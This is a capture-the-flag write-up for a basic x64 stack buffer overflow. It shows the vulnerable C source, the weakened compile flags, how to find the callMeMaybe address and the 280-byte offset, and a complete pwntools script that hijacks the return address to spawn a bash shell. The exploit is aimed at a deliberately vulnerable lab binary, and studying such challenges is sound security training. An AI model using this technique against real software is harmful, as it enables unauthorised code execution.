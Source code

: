 # ELF x64 - Stack buffer overflow - basic

## Target

A small 64-bit Linux binary (`chall`) compiled as:

```sh
gcc -o chall source.c -fno-stack-protector -no-pie \
    -Wl,-z,relro,-z,now,-z,noexecstack
```

Relevant source (simplified):

```c
void callMeMaybe(){
    char *argv[] = { "/bin/bash", "-p", NULL };
    execve(argv[0], argv, NULL);
}

int main(...) {
    char buffer[256];
    scanf("%s", buffer);
    printf("Hello %s\n", buffer);
    return 0;
}
```

## Vulnerability summary

* The program reads user input with `scanf("%s", buffer);` into a fixed-size stack buffer of **256** bytes **without length checking** → classic stack overflow.
* `-fno-stack-protector` disables stack canaries, `-no-pie` makes code addresses fixed, and `-z,noexecstack` prevents executing shellcode from the stack — but we can simply overwrite the saved return address and jump to an existing function (`callMeMaybe`) that calls `execve("/bin/bash", ...)`.
* Because PIE is disabled, the address of `callMeMaybe` is static and can be found in the ELF symbol table (`objdump -d`, `nm`, `readelf -s`, or via pwntools `ELF(exe).symbols['callMeMaybe']`).

## Exploitation idea

Overwrite the saved return address on the stack with the address of `callMeMaybe`. When `main` returns, execution will jump to `callMeMaybe`, which spawns a root-preserving shell (`/bin/bash -p`) — providing an interactive shell.

This is a straightforward return-to-`callMeMaybe` exploit (no ROP chains, no libc needed).

---


### Find the address of `callMeMaybe`

Using pwntools or standard tools:

* pwntools:

```py
from pwn import *
elf = ELF('./chall')
print(hex( elf.symbols['callMeMaybe'] ))
```

* or with `nm` / `objdump`:

```sh
nm -C chall | grep callMeMaybe
# or
objdump -d chall | grep -A1 '<callMeMaybe>'
```

![callme](./img/callme.png)


### 3. Determine the overflow offset (where saved rip is overwritten)


we can find the offset using `r2`

![offset](./img/offset.png)

so the offset is `280`

---

## Final exploit 

This script:

* Determines `callMeMaybe` address from the ELF,
* Uses a verified offset (you can hardcode after discovery),
* Sends the payload and drops to an interactive shell.

```py
from pwn import *

exe = './chall'
elf = ELF(exe)
context.binary = elf
context.log_level = 'info'


OFFSET = 280   # example — you MUST find this with cyclic_find
CALL_ADDR = elf.symbols['callMeMaybe']   # e.g. 0x401020

payload = b'A' * OFFSET + p64(CALL_ADDR)

p = process(exe)
p.sendline(payload)
p.interactive()   # should drop you to shell from execve
```

How it works:

* `b'A' * OFFSET` fills up buffer + saved frame bytes up to the saved return pointer.
* `p64(CALL_ADDR)` writes the 8-byte little-endian address of `callMeMaybe` into the saved RIP slot. When `main` returns, execution jumps there and `execve("/bin/bash",...)` runs.

![result](./img/result.png)